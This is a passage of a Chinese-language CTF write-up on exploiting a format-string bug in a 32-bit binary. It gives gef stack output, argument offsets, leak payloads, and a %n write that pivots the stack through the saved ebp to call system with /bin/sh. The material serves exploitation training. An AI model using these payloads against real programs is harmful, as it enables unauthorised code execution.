 ```c
0xffffd098│+0x0088: 0xffffd12c  →  0xffffd31a  →  "XDG_VTNR=7"
0xffffd09c│+0x008c: 0x00000000
0xffffd0a0│+0x0090: 0x00000000
0xffffd0a4│+0x0094: 0x00000000
0xffffd0a8│+0x0098: 0xf7fb8000  →  0x001afdb0
0xffffd0ac│+0x009c: 0xf7ffdc04  →  0x00000000
0xffffd0b0│+0x00a0: 0xf7ffd000  →  0x00022f3c
0xffffd0b4│+0x00a4: 0x00000000
0xffffd0b8│+0x00a8: 0xf7fb8000  →  0x001afdb0
0xffffd0bc│+0x00ac: 0xf7fb8000  →  0x001afdb0
0xffffd0c0│+0x00b0: 0x00000000
0xffffd0c4│+0x00b4: 0x6566a302
0xffffd0c8│+0x00b8: 0x5ecc6d12
0xffffd0cc│+0x00bc: 0x00000000
0xffffd0d0│+0x00c0: 0x00000000
0xffffd0d4│+0x00c4: 0x00000000
0xffffd0d8│+0x00c8: 0x00000001
0xffffd0dc│+0x00cc: 0x080485c0  →   xor ebp, ebp
0xffffd0e0│+0x00d0: 0x00000000
0xffffd0e4│+0x00d4: 0xf7feeff0  →   pop edx
0xffffd0e8│+0x00d8: 0xf7fe9880  →   push ebp
0xffffd0ec│+0x00dc: 0xf7ffd000  →  0x00022f3c
0xffffd0f0│+0x00e0: 0x00000001
0xffffd0f4│+0x00e4: 0x080485c0  →   xor ebp, ebp


偏移计算
fmtarg 0xffffd08c
The index of format argument : 31
gef➤  fmtarg 0xffffd03c
The index of format argument : 11    格式化字符串地址
fmtarg 0xffffd028
The index of format argument : 6     存上层ebp地址
```

**获取描述堆地址**

```
[system_addr][bbbb][binsh_addr][%6$p][%11$p][bbbb]
```

在部分环境下，system 地址会出现 \ x00，导致 printf 的时候出现 0 截断导致无法泄露两个地址，因此可以将 payload 的修改如下：

```
[%6$p][%11$p][ccc][system_addr][bbbb][binsh_addr][dddd]
```

payload 修改为这样的话，还需要在 heap 上加入 12 的偏移。这样保证了 0 截断出现在泄露之后。

由于我们需要执行 move 指令将 ebp 赋给 esp，并还需要执行 pop ebp 才会执行 ret 指令，所以我们需要将 ebp 修改为存储 system 地址 -4 的值。这样 pop ebp 之后，esp 恰好指向保存 system 的地址，这时在执行 ret 指令即可执行 system 函数。

上面已经得知了我们希望修改的 ebp 值，而也知道了对应的偏移为 11，所以我们可以构造如下的 payload 来进行修改相应的值。

```
part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
```
